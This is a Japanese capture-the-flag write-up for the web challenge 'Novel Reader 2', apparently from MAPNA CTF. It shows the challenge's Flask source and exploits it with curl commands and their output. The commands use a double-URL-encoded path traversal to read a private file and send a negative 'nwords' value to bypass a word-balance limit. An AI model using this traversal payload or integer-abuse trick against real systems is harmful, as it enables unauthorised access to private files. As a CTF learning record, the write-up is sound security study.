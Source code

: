# Novel Reader 2:Web:46pts
Submit the second flag of "Novel Reader" here  

# Solution
[Novel reader](../Novel_reader)の続きのようだ。  
ファイル構造を再度確認すると以下のようであった。  
```bash
$ tree
.
├── index.html
├── main.py
├── private
│   └── A-Secret-Tale.txt
├── public
│   ├── A-Happy-Tale.txt
│   └── A-Sad-Tale.txt
└── static
    ├── script.js
    └── style.css

3 directories, 7 files
$ cat private/A-Secret-Tale.txt
Once a upon time there was a flag. The flag was read like this: MAPNA{test-flag}. FIN.
```
`private`の`A-Secret-Tale.txt`にフラグが書かれている。  
トラバーサルして読み取ってみる。  
```bash
$ curl -H 'Cookie: session=eyJjcmVkaXQiOjAsIndvcmRzX2JhbGFuY2UiOjExfQ.Za0PlQ._41fKxqQM14l0Afp4vvm1y5-bz4' --path-as-is 'http://3.64.250.135:9000/api/read/public/%252e%252e%252fprivate%252fA-Secret-Tale.txt'
{"msg":"Once a upon time there was a flag. The flag was... Charge your account to unlock more of the novel!","success":true}
```
途中までしか読み取れていない。  
ソースの読み取り個所を確認する。  
```python
~~~
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
~~~
```
スペースで分割されている。  
`buf[0:session['words_balance']]`により`buf[0:11]`しか読み取れていないことがわかる。  
`Words Balance`を管理する箇所を調査する。  
```python
~~~
@app.post('/api/charge')
def buyWord():
    nwords = request.args.get('nwords')
    if(nwords):
        nwords = int(nwords[:10])
        price = nwords * 10
        if(price <= session['credit']):
            session['credit'] -= price
            session['words_balance'] += nwords
            return {'success': True, 'msg': 'Added to your account!'}
        return {'success': False, 'msg': 'Not enough credit.'}, 402
    else:
        return {'success': False, 'msg': 'Missing parameteres.'}, 400
~~~
```
入力値`nwords`をintにキャストし、`session['words_balance'] += nwords`している。  
ここで負の数も使用できることに気づく。  
`Words Balance`を-2すると、`buf[0:-1]`となり、末尾の要素の一つ前まで取得できる。  
以下のように実行する。  
```bash
$ curl -X POST http://3.64.250.135:9000/api/charge?nwords=-2 -I
HTTP/1.1 200 OK
Server: nginx/1.23.2
Date: Sun, 21 Jan 2024 12:52:51 GMT
Content-Type: application/json
Content-Length: 48
Connection: keep-alive
Vary: Cookie
Set-Cookie: session=eyJjcmVkaXQiOjEyMCwid29yZHNfYmFsYW5jZSI6LTF9.Za0Tow.d4wb0ZkusjNa85pVXZ9OyNvjHBg; HttpOnly; Path=/

$ curl -H 'Cookie: session=eyJjcmVkaXQiOjEyMCwid29yZHNfYmFsYW5jZSI6LTF9.Za0Tow.d4wb0ZkusjNa85pVXZ9OyNvjHBg' --path-as-is 'http://3.64.250.135:9000/api/read/public/%252e%252e%252fprivate%252fA-Secret-Tale.txt'
{"msg":"Once a upon time there was a flag. The flag was read like this: MAPNA{uhhh-y0u-607-m3-4641n-3f4b38571}.... Charge your account to unlock more of the novel!","success":true}
```
flagが得られた。  

## MAPNA{uhhh-y0u-607-m3-4641n-3f4b38571}